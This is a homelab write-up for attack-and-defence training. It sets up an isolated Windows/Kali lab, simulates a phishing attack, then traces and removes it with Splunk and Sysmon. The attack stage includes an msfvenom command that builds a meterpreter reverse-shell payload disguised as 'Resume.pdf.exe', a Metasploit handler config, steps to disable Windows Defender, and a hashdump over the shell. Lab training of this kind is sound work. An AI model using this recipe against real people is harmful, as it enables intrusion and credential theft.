

---

# Homelab: Attack and Defence Simulation Project

### Objective
The primary objective of this project is to simulate a cyber-attack, investigate the attack using Splunk, and remediate it. This documentation covers the setup, configuration, attack simulation, investigation, and remediation steps, providing a thorough demonstration of attack and defence skills in a controlled lab environment.

---

## Project Overview

1. **Stage 1:** Lab Setup
2. **Stage 2:** Machine Configuration
3. **Stage 3:** Attack Simulation
4. **Stage 4:** Investigation and Remediation
5. **Conclusion**

---

## Stage 1: Lab Setup

### 1. Environment Setup

- **Install VirtualBox** and create two virtual machines.

    
- **Machine 1 (Victim):** Windows 10  
    
- **Machine 2 (Attacker):** Kali Linux  
    

### 2. Network Configuration

- **Internal Network Isolation:** Configure both machines to communicate only through an internal network.

- Go to **Settings > Network > Select Internal Network**  

- **Static IP Assignment:** Assign static IPv4 addresses to each machine for consistent communication.

    - Windows 10 (Victim): 192.168.1.10
    
    - Kali Linux (Attacker): 192.168.1.20  
    

---

## Stage 2: Machine Configuration

### Machine 1: Victim (Windows 10)

1. **Install Splunk Enterprise:**
   - Download and install Splunk enterprise to monitor system activities.
   - Navigate to `http://127.0.0.1:8000`for using splunk and login to your account.
   
   

2. **Install Sysmon Add-on for Splunk:**
   - Download and install the Sysmon add-on for advanced monitoring.
   
   - Copy `Splunk_TA_microsoft_sysmon` add-on directory from `Splunk/etc/app` to `Splunk/etc/deployment-apps`.
   

3. **Configure Sysmon:**
Download and configure Sysmon with an XML configuration file for detailed process monitoring.
   - [Download Sysmon](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)
   - [Download Sysmon configuration file](https://github.com/olafhartong/sysmon-modular) 
   
         ./sysmon64 -i ./config.xml -accepteula


4. **Deactivate Windows Defender:**
   Temporarily disable Windows Defender to avoid interference with the simulation.

### Machine 2: Attacker (Kali Linux)

1. **Network Connectivity Check:** Use the `ping` command to confirm connectivity with the victim machine.  
     

2. **Reconnaissance Using Nmap:**
   - Use `nmap` to scan the victim machine for open ports, identifying potential vulnerabilities.  

   

3. **Malware Creation:** Generate a malware executable with `msfvenom` using the `windows/meterpreter/reverse_tcp` payload.

         msfvenom -p windows/x64/meterpreter/reverse_tcp lhost="Your Host IP" lport=4444 -f exe -oResume.pdf.exe
   

4. **Phishing Email:**
    Craft a phishing email with the malware attachment and send it to the victim.  

   

---

## Stage 3: Attack Simulation

### Step 1: Launch `msfconsole` on Kali Linux (Attacker Machine)

1. Launch `msfconsole` and configure it to listen for an incoming connection:
   ```bash
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_tcp
   set LHOST <Your_IP>
   set LPORT 4444
   exploit
   ```

### Step 2: Execute the Malware on Windows 10 (Victim Machine)

- Open the malware attachment from the phishing email on the victim machine to initiate a reverse shell connection.

### Step 3: Access the Victim Machine

- Once the malware is executed, access the victim machine via the Meterpreter shell.
  - Execute commands such as `sysinfo`, `hashdump`, and other shell commands to observe system data and activity.

---

## Stage 4: Investigation and Remediation

### 1. Investigate with Splunk on Windows 10

- Analyze Sysmon logs in Splunk to trace malware behavior, focusing on:
  - **Process Creation**
  - **Network Connections**
  - **Registry Modifications**
- Document each log entry to map the attack sequence.  
  

### 2. Investigation Findings

- Document findings, including:
  - How the attack was executed
  - Impact on the system
  - Vulnerabilities that were exploited

### 3. Malware Removal and Remediation

- Terminate the malicious process.
  - 
- Delete the malware executable.
- Check for persistent registry entries or scheduled tasks to ensure complete threat removal.

---

## Conclusion

This homelab simulation demonstrated a cyber-attack process from setup through remediation, providing a hands-on experience in both offensive and defensive cybersecurity skills. By leveraging tools like Splunk and Sysmon, the investigation traced the attack's behavior, enabling a thorough remediation process to secure the system.

---

